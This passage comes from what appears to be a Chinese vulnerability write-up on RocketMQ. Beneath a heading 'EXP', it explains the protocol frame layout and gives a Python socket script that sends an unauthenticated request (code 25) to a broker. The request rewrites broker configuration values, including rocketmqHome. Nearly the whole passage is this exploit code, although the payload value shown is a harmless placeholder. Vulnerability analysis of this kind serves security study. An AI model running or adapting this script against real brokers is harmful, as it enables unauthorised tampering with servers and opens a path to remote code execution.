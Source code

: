 ![image-20230619174153676](images/23.png)

# EXP

前面贴出来了python的exp，是使用socket然后往里面塞入协议头，协议数据等实现的，协议主要包含四部分，协议总长度+json长度+json+body

```
import socket
import binascii
client = socket.socket()
# you ip
client.connect(('192.168.111.129',10911))
# data
json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```